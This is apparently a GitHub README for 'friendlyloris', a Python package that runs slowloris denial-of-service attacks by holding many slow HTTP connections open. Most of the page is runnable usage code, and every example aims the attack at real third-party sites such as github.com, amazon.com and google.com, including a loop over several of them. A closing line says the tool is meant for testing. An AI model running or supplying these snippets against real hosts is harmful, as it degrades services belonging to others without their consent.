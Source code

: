 # ✨ friendlyloris, a simple slow loris package for Python ✨

### Here is a minimal start:

1.  Install with `pip install friendlyloris`
2.  Run the following code:

        from friendlyloris import FriendlyLoris

        loris = FriendlyLoris(host="github.com")

        loris.run()

### The following options are available:

- **Host (required)** *The URL or IP address we want to connect to*
- **Port** *The port number we will use to connect*
- **Https** *If we will start an encrypted connection*
- **Connections** *The number of simultanious connections we will make*
- **Interval** *The number of seconds we wait before refreshing connections*
- **Loops** *How many times we will refresh connections*
- **Verbose** *If we want to see verbose logging*

### Here is an example with the default values:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        port = 443,
        https = True, 
        connections = 200, 
        interval = 10, 
        loops = 5, 
        verbose = False
        )

    loris.run()

### A few more examples below:

Connecting with plaintext HTTP:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        port = 80,
        https = False
        )

    loris.run()

More connections and verbose logging:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        connections = 500,
        verbose = True
        )

    loris.run()

More connections, shorter timeout and 1 loop:

    from friendlyloris import FriendlyLoris

    loris = FriendlyLoris(
        host = "github.com",
        connections = 500,
        interval = 5,
        loops = 1
        )

    loris.run()

Finally, quick tests running against a list of sites:

    from friendlyloris import FriendlyLoris

    hosts = [
        "github.com",
        "stackoverflow.com",
        "amazon.com",
        "google.com",
    ]

    for site in hosts:

        loris = FriendlyLoris(
            host = site,
            connections = 100,
            interval = 5,
            loops = 2,
            verbose = True
            )

        loris.run()

A [good article](https://www.cloudflare.com/learning/ddos/ddos-attack-tools/slowloris/) on how this works 🎉

This was designed for testing, not malice 😊 Please use as such 😇

Enjoy 🤙
